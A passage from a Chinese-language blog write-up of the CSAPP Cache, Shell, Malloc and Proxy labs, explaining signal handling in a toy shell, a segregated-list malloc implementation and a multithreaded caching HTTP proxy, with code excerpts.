  > 原先的8x8分割无法使用，原因是这样会产生内部的访问冲突，加大miss数量。
  > 请注意，倘若按照4x4的大小来分割，则会浪费一半的cache空间，所以这并非64x64矩阵的最优解法，但这是笔者能想到的最优解法。
- 至于61x67矩阵，由于测试程序放宽了miss数量的限制，故将大型矩阵切割为16x16即可满分。
- Part B中限制了临时变量的个数，最多使用12个临时变量。要想进一步降低miss数量，最好单次将一整个缓存行里的数据全部读出到临时变量中，这样该缓存行内的数据一旦被驱逐，下次需要读取数据时就不必再次读入cache，减小miss数。
- 笔者最终的代码实现 - [github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/5.%20Cache%20Lab/trans.c)

### 3) 测试

- 使用`make && ./driver.py`命令进行测试。以下是笔者的测试结果。  
    

## 6. Shell Lab

- 在这个Lab中，我们需要完善`tsh.c`代码，做出一个简单的shell程序。注意，在完成这个Lab前，最好把第八章异常程序控制流的相关内容理解透彻。
- 编写时，有几个点需要注意一下
  - 避免条件竞争。
    - 如果子进程在tsh`fork`之后、`addjob`前结束进程，则此时会因为`SIGCHLD`信号，转去信号处理程序里执行`deletejob`。
    - 此时的执行顺序就变成了`deletejob`->`addjob`，这将会产生一个永远存在的job，即便该job所指定的进程已经终止了。
    - 所以我们在执行`fork`函数前，将一些可能会导致条件竞争的信号阻塞，待`addjob`执行完成后再来处理信号。

        ```cpp
        if(sigemptyset(&set) < 0)
            unix_error("sigemptyset error");
        if(sigaddset(&set, SIGINT) < 0 || sigaddset(&set, SIGTSTP) < 0 || sigaddset(&set, SIGCHLD) < 0)
            unix_error("sigaddset error");
        // 在fork前，将SIGCHLD信号阻塞，防止并发错误——_竞争_ 的发生
        if(sigprocmask(SIG_BLOCK, &set, NULL) < 0)
            unix_error("sigprocmask error");
        ```

    - 与当前进程一样，`fork`出的子进程，其被阻塞的信号是相同的，故子进程必须恢复回被阻塞的信号。

        ```cpp
        if((pid = fork()) < 0)
            unix_error("fork error");
        else if(pid == 0)
        {
          // 子进程的控制流开始
          if(sigprocmask(SIG_UNBLOCK, &set, NULL) < 0)
              unix_error("sigprocmask error");
          if(setpgid(0, 0) < 0)
              unix_error("setpgid error");
          if(execve(argv[0], argv, environ) < 0){
              printf("%s: command not found\n", argv[0]);
              exit(0);
          }
        }
        ```

  - 信号不排队
    - 如果有多个子进程同时终止并发出`SIGCHLD`信号，则tsh主进程只会收到一个信号，而不是多个。
    - 原因是当某个类型的信号被阻塞后，新来的相同类型信号会被简单的丢弃。
    - 所以在回收子进程时，应使用循环形式尽可能多的回收进程。

      ```cpp
      // sigchld_handler函数中
      /*
      以非阻塞方式等待所有子进程
      waitpid 参数3：
          1.     0     ： 执行waitpid时， 只有在子进程 **终止** 时才会返回。
          2. WNOHANG   : 若子进程仍然在运行，则返回0 。
                  注意只有设置了这个标志，waitpid才有可能返回0
          3. WUNTRACED : 如果子进程由于传递信号而停止，则马上返回。
                  只有设置了这个标志，waitpid返回时，其WIFSTOPPED(status)才有可能返回true
      */
      while((pid = waitpid(-1, &status, WNOHANG | WUNTRACED)) > 0){
        ...
      }
      ```

  - 只应使`SIGCHLD`信号处理程序执行`waitpid`。
    - 该信号处理程序会处理所有子进程的暂停/终止状态，而tsh进程在等待前台进程结束时，只需简单的挂起即可，无需再次执行`waitpid`。

      ```cpp
      /*
      * waitfg - Block until process pid is no longer the foreground process
      */
      void waitfg(pid_t pid)
      {
          struct job_t *job = getjobpid(jobs, pid);
          if(!job) return;
          // 如果当前子进程的状态没有发生改变，则tsh继续休眠
          while(job->state == FG)
              // 使用sleep的这段代码会比较慢，最好使用sigsuspend
              sleep(1);
          if(verbose)
              printf("waitfg: Process (%d) no longer the fg process\n", pid);
          return;
      }
      ```

    - 否则`waitfg`、`sigchld_handler`两边都执行`waitpid`函数，这可能会造成一些无法预料到的、令人感到迷惑的错误。
  - fork出的新子进程需要重新设置进程组号
    - 原因是当从bash运行tsh时，tsh在bash前台进程组中运行。
    - 如果tsh随后创建了一个子进程，默认情况下，该子进程也将是bash前台进程组的成员。
    - 由于输入ctrl-c将向bash前台组中的每个进程发送一个SIGINT，因此该信号会被tsh以及tsh创建的每个进程所接收，这显然是不正确的。
    - 所以子进程应该调用`setpgid(0,0)`，这将使子进程放入一个新的进程组中，其中该进程组的ID与子进程的PID相同。这确保bash前台进程组中只有一个进程，即tsh进程。
    - 当键入ctrl-c时，tsh应该捕获结果SIGINT，然后将其转发到适当的前台进程。
  - 当主进程需要暂时挂起时，最好使用`sigsuspend`挂起，而不是简单的使用`sleep`，因为`sleep`的速度过于低下。
  - 在信号处理程序中，最好使用*原子*函数，因为这类函数在执行时不会因为其他信号的触发而被打断。  
    以`printf`函数为例，该函数不推荐在信号处理程序中使用，因为它不是原子类型的函数。  
    当执行`printf`函数时，倘若被另一个信号中断，待从信号中断程序返回并继续执行`printf`时，`printf`很有可能会执行失败。
  - 发送信号给子进程时，最好发送给子进程所在的进程组。例如发送`SIGTSTP`：

    ```cpp
    if(kill(-pid, SIGTSTP) < 0)
      unix_error("kill (tstp) error");
    ```

  - `sigchld_handler`处理`SIGCHLD`信号时，需要对三类情况分开处理，分别是
    - 子进程收到暂停信号，还没终止(`WIFSTOPPED(status)`)
    - 子进程正常退出/终止(`WIFEXITED(status)`)
    - 子进程因为其他信号而异常退出，例如`SIGKILL`

- 笔者将`tshref`的源代码（相似度高达98%)存于[github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/6.%20Shell%20Lab/tsh.c)。
  > 由于tsh只是一个较为简单的程序，故编写时仍然使用了一些不被推荐的函数(例如`sleep`、`printf`)以降低编写难度。

## 7. Malloc Lab

- 在做本实验前，需要先理解*虚拟内存*那一章中动态内存分配的相关内容

### 1) 注意点

> 在做malloc lab时，有几个点需要注意一下

- 使用大量宏定义
  - 指针操作是复杂且容易出错的，可以将指针操作设置为一个宏定义来使用，方便统一管理与修改。
  - 如果程序需要设置一些输出以方便调试，使用宏定义可以非常方便的打开/关闭这些输出，不必一个个注释。
  - 使用宏定义`assert`可以限制程序运行时的一些条件，方便查找错误。
  - 如果代码编写到一半想更改chunk的结构，最好使用`#ifdef、#else、#endif`宏定义，这样不仅可以**保留旧的chunk结构**，而且还可以快速从新旧结构中切换，非常方便。
    > 最好将旧的chunk结构保留。  
    > 因为很有可能在编写新结构时发现一个致命错误，从而不得不重新使用旧的结构。

  ```cpp
  // ...
  #define ALLOC_MASK      1
  #define PREV_FREE_MASK  2

  /* Read and write a word at address p */
  #define GET(p)              (*(unsigned int*)(p))
  #define GET_RAW_SIZE(p)         (GET(p))
  #define GET_SIZE(p)             (GET_RAW_SIZE(p) & ~0x7)
  #define GET_PREV_SIZE(p)        (GET_SIZE((p) - WSIZE))
  // 这里的SET_SIZE将会保留最后2位
  #define SET_SIZE(p, val)        (GET_RAW_SIZE(p) = (val | (GET_RAW_SIZE(p) & (ALLOC_MASK | PREV_FREE_MASK))))

  #define GET_ALLOC(p)                (GET_RAW_SIZE(p) & ALLOC_MASK)
  #define SET_ALLOC(p)                (GET_RAW_SIZE(p) |= ALLOC_MASK)
  #define SET_FREE(p)              (GET_RAW_SIZE(p) &= ~ALLOC_MASK)

  #define GET_PREV_FREE(p)     (GET_RAW_SIZE(p) & PREV_FREE_MASK )
  #define SET_PREV_FREE(p)            (GET_RAW_SIZE(p) |= PREV_FREE_MASK )
  #define SET_PREV_ALLOC(p)          (GET_RAW_SIZE(p) &= ~PREV_FREE_MASK )
  // footer可以空间复用
  #define request2chunksize(size) \
      ((size) > (MIN_CHUNKSIZE - WSIZE) ? ALIGN(size+WSIZE) : MIN_CHUNKSIZE)

  #define FD(p)           (*(void**)((void*)(p) + WSIZE))
  // 传入指向fd的指针，传出指向该chunk的header的指针
  #define FD2HD(p)        ((void*)((void*)(p) - WSIZE))
  #define BK(p)           (*(void**)((void*)(p) + DSIZE))
  #define NEXT_CHUNK(p)   ((void*)((void*)(p) + GET_SIZE(p)))
  // PREV_CHUNK当且仅当上一个chunk是free chunk才能使用
  #define PREV_CHUNK(p)   (((void*)(p) - GET_PREV_SIZE(p)))
  #define FOOTER(p)       (NEXT_CHUNK(p) - WSIZE)
  #define HD2MEM(p)       ((void*)((void*)(p) + WSIZE))
  #define MEM2HD(p)       (FD2HD(p))

  // debug专用宏定义
  #define DBG(s) assert(s)
  // ...
  ```

- 指针运算
  - 需要注意的是，不同的指针类型与数字运算，可能会偏移不同的字节数。最好将所有指针强制转换为`char*`或`void*`类型再操作。

    ```cpp
    int* ip = 0x1100;
    ip += 1;
    // 此时ip == 0x1104，指针偏移了4个字节（32位环境）
    /*******************************/
    void* vp = 0x1100;
    vp += 1;
    // 此时vp == 0x1101，指针偏移了1个字节
    ```

- 考虑边界情况
  - 向前合并时，需要手动对内存布局中第一个chunk进行特殊处理，原因是第一个chunk前**不存在任何chunk**。
  - 同时，我们还必须针对最后一个chunk做一些特殊处理。因为当某个chunk被释放后，我们需要对该chunk的下一个chunk的`PREV_INUSE`位进行设置。但如果这个被释放的chunk是最后一个chunk，此时设置*下一个chunk*的相关位就会产生`off by one`漏洞，所以需要对最后一个chunk进行特殊处理。
- 内存对齐
  - `mdriver`程序会验证**用户空间地址**(不是chunk首地址)是否对齐，因此需要手动在初始化时抬高`brk`4个字节的空间。

### 2) 思路

> 笔者使用了分离适配原则，最终代码存放于[github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/7.%20Malloc%20Lab/mm.c)，下面来简单讲讲思路

- 首先，chunk的结构如下

  ```text
  free chunk的结构
  +-------------+
  | chunksize|00|   <- chunk size 包含两个标志位，表示当前chunk以及上一个chunk是否使用
  +-------------+
  |       fd    |   <- 用户所使用的空间，包括对齐的空间。该空间地址以8字节为对齐标准
  |       bk    |
  |   (padding) |
  +-------------+
  |  chunksize  |   <- chunk size，无标志位，可空间复用
  +-------------+
  ```

  - 当该chunk被释放，即`free chunk`，则该chunk的最后4个字节会用于设置当前free chunk的大小，同时设置下一个内存相邻chunk的chunksize部分的`PREV_INUSE`位。
  - 但由于每个free chunk都会设置下一个chunk的相关位，如果内存中最靠后的一个chunk被释放，则会修改尚未分配的内存，这可能会导致`off by one`漏洞。所以又额外设置了一个`top chunk`指针，该指针指向内存中最靠后的chunk，该chunk独立管理，不添加进链表中。
  - 由于一个chunk中的`PREV_INUSE`位表明上一个内存相邻chunk的分配情况，故内存中最靠前的chunk的`PREV_INUSE`位需要额外处理，因为该chunk之前不存在chunk。

    ```cpp
    int mm_init(void)
    {
        // ...
        // 将brk抬高4字节，这样每个chunk的用户空间就满足八字节对齐标准
        // 同时，设置top chunk
        int topSize = (CHUNKSIZE > MIN_CHUNKSIZE ? CHUNKSIZE : MIN_CHUNKSIZE);
        top_chunk = mem_sbrk(4 + topSize) + 4;
        SET_SIZE(top_chunk, topSize);
        SET_FREE(top_chunk);
        // 第一个chunk，设置前面的空间为不可合并
        SET_PREV_ALLOC(top_chunk);

        return 0;
    }
    ```

- 该程序使用分离的链表来管理各个chunk，每个数组中存放两个指针——`FD`、`BK`，分别指向链首的chunk和链尾的chunk。

  ```cpp
  #define getListIndx(chunkSize)      \
    ((chunkSize) >= (1 << 12) ? 8 :  \
    ((chunkSize) >= (1 << 11) ? 7 :  \
    ((chunkSize) >= (1 << 10) ? 6 :  \
    ((chunkSize) >= (1 << 9) ? 5 :   \
    ((chunkSize) >= (1 << 8) ? 4 :   \
    ((chunkSize) >= (1 << 7) ? 3 :   \
    ((chunkSize) >= (1 << 6) ? 2 :   \
    (chunkSize) >= (1 << 5) ? 1 :    \
    (chunkSize) >= (1 << 4) ? 0 : -1 \
    )))))))
  /*
  ChunkSize:
  0x10-0x20       2^4
  0x20-0x40       2^5
  0x40-0x80       2^6
  0x80-0x100      2^7
  0x100-0x200     2^8
  0x200-0x400     2^9
  0x400-0x800     2^106
  0x800-0x1000    2^11
  0x1000-~        2^12
  9 bins(void*)
  */
  #define HEAP_LIST_NUM 9
  void* heap_listp[HEAP_LIST_NUM][2];
  // top_chunk指向的chunk不存在heap_listp中，同时其指向的chunk一定在堆的最高
  void* top_chunk = NULL;
  ```

- 相关函数的实现
  - `mm_init`: 初始化链表、抬高4字节使chunk的用户空间通过8字节对齐标准、手动分配并设置第一块chunk的`PREV_INUSE`位为0、分配一块超大内存给`top_chunk`。
  - `mm_malloc`: 首先查找各个链表中是否存在所需要的chunk。
    - 如果有，则断开链表、切割chunk、设置chunk的头部与尾部（只有切割下的chunk会设置尾部）、将剩余chunk放回链表、返回用户地址一条龙。
    - 如果没有，则判断`top chunk`的空间是否足够分配
      - 如果足够，切割top chunk、设置chunk的首尾、重新设置top_chunk、将目标chunk的用户地址返回。
      - 如果不够，将当前top chunk插入链表中，重新分配一块超大内存给`top_chunk`指针，之后重新递归执行`mm_malloc`，返回该递归执行的返回值。
  - `mm_free`: chunk的释放策略非常简单，直接将传入的chunk插入特定索引的链表中即可。插入时自动合并相邻的chunk。
  - `mm_realloc`: 该函数先将传入指针的上下两块可能空闲的chunk合并，然后判断当前chunk的大小是否符合需求。  
    - 如果不符合要求，则分配一块新的内存，复制数据，并最后释放旧的chunk
    - 如果合并后的chunk大小满足需求，则复制数据并切割多余的空间（如果有多余空间的话）。
      > 这里的复制数据最好使用`memmove`，因为合并后的chunk与原先传入的chunk，其首部可能存在重叠，`memmove`可以避免这种因为chunk重叠而数据被破坏的错误。

### 3) 评分

- 代码编了差不多有两天，但分数一般般，`86/100`
  > 评分程序中的`valid`表示是否通过当前测试用例，  
  > `util`表示空间利用率，  
  > `ops`表示当前测试用例内的所有操作总数，  
  > `secs`表示执行当前用例所耗的总时间，  
  > `Kops`即`Kop/s`，表示执行操作的速度，可以间接理解为吞吐量。

    
  - 主要的失分点在于空间利用率。大部分测试样例的空间利用率都挺高，只有少部分的一些样例需要优化，例如realloc。  
    该代码仍然需要针对realloc的测试样例进行更深层次的优化。但编写这个lab的目的在于**更深入的了解动态内存管理机制**，笔者认为已经差不多达到了这个目的，所以没有继续进行优化。
  - 吞吐量拿到了满分，这可能是因为笔者机器速度比较快，所耗时间比较低。

## 8. Proxy Lab

- 在完成这个lab前，需要先看一下CSAPP中关于网络编程和并发编程的相关内容，同时要理解网络编程那一章中的tiny简易网页服务器的每一行代码。

### 1) Part A

- 在Part A中，我们要完成以下几个任务
  - 读取客户端传来的http header
  - 向http header中添加一些额外的header，例如`User-Agent、Host、Connection、Proxy-Connection`。如果原来的http header中已经包括了某个header，则不再添加。
  - 修改客户端传来的http header中的第一行URI。  
    例如：修改`GET http://localhost:80/index.html HTTP/1.1`为`GET /index.html HTTP/1.1`
  - 将修改好的http header发送给服务器
  - 将服务器返回的数据转发给客户端
- 这部分内容分值为40分，其实现过程可以参照tiny网页服务器来实现。所设计的数据结构如下

    ```cpp
    typedef struct {
        char name[MAXLINE];
        char value[MAXLINE];
    }http_headers;

    typedef struct{
        char requestType[MAXLINE];
        char Protocol[MAXLINE];
        char address[MAXLINE];
        char resource[MAXLINE];
        char port[10];
    }http_target;
    ```

### 2) Part B

- Part B中的任务只有一个，将程序修改为并发程序。
- 最简单的实现方式就是使用pthread来进行多线程处理。需要注意的是，每一条线程都必须使用**分离模式**，这样当某条线程结束任务后，其资源就可以自动被操作系统释放，而无需主线程主动释放，避免了内存泄露。
  
  ```cpp
  pthread_attr_t thread_attr;
  pthread_t thread;
  // 设置线程状态为分离状态，防止大量线程结束后没有被回收，所导致的内存泄露
  pthread_attr_init(&thread_attr);
  pthread_attr_setdetachstate(&thread_attr, PTHREAD_CREATE_DETACHED);
  // 初始化线程锁
  pthread_mutex_init(&thread_mutex, NULL);
  // ...
  // 线程执行doit(connfd);
  pthread_create(&thread, &thread_attr, doit, (void*)(long)connfd);
  // ...
  ```

- Part B分值15分。

### 3) Part C

- Part C要求我们对Proxy程序添加缓存功能，即当代理服务本身存放着某个资源的缓存时，代理服务就可以之间将该资源返回给客户端，而不需要向服务器申请。
- 使用LRU作为Cache的置换算法，单次读取某个资源时需要重新设置该资源的LRU变量。故其数据结构定义如下
  
    ```cpp
    // 缓存
    typedef struct{
        char address[MAXLINE];
        char content_type[MAXLINE];
        char* data;
        size_t size;
        size_t lru;
    }cache_line;
    size_t current_lru = 1, cache_nums = 0, cache_size = 0;
    cache_line cache[MAX_CACHE_LINE];
    ```

- 由于写入数据会修改Cache，读取数据也会修改Cache，故每条线程在使用Cache时必须对资源上锁，防止条件竞争。
  
  ```cpp
  // 互斥锁
  pthread_mutex_t thread_mutex;
  void* doit(void* thread_arg) 
  {
    // ...
    // 设置线程锁
    pthread_mutex_lock(&thread_mutex);
    // 判断该资源是否存在cache中
    const cache_line* tmpCache = readCache(uri);
    // ...
    // 解锁
    pthread_mutex_unlock(&thread_mutex);
    // ...
  }
  ```

- Part C分值也是15分。

### 4) 测试

- 调试时，可以使用`curl -v <webAddr> --proxy <proxyAddr>`命令来调试，使用`-v`参数可以时curl输出发送的http内容与返回的http内容，便于调试。  
    
- 最终代码存放于[github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/8.%20Proxy%20Lab/proxy.c)  
  最后的评分如下   
    
